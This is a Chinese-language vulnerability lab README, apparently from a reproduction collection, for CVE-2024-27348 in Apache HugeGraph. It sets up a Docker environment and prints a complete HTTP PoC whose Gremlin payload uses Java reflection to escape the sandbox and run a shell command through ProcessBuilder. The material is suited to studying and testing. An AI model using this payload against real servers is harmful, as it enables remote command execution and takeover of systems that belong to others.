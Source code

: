 # Apache HugeGraph 远程命令执行漏洞（CVE-2024-27348）

HugeGraph是一款易用、高效、通用的图数据库，实现了Apache TinkerPop3 框架、兼容 Gremlin 查询语言。
在 Apache HugeGraph 1.3.0 之前的版本中存在远程代码执行（RCE）漏洞。攻击者可以通过 Gremlin 绕过沙箱限制并实现 RCE 执行任意命令，从而完全控制服务器。

参考链接：

- https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/
- https://github.com/apache/incubator-hugegraph
- https://hugegraph.apache.org/
- https://github.com/kljunowsky/CVE-2024-27348

## 运行环境

执行如下命令启动漏洞环境：

```
docker compose up -d
```

启动完成后，访问`http://your-ip:8088/`即可看到web页面。

## 漏洞复现

通过 Burp Suite 拦截请求，并使用如下 PoC：

```
POST /gremlin HTTP/1.1
Host: tonghuaroot.local:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 758

{   

    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"touch\", \"/tmp/tonghuaroot\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");startMethod.invoke(processBuilderInstance);",

    "bindings": {},

    "language": "gremlin-groovy",

    "aliases": {}

}
```

![alt text](image.png)

进入容器内部 ```docker compose exec hugegraph bash``` ，可见 ```/tmp/tonghuaroot``` 已成功创建：

![alt text](image-1.png)
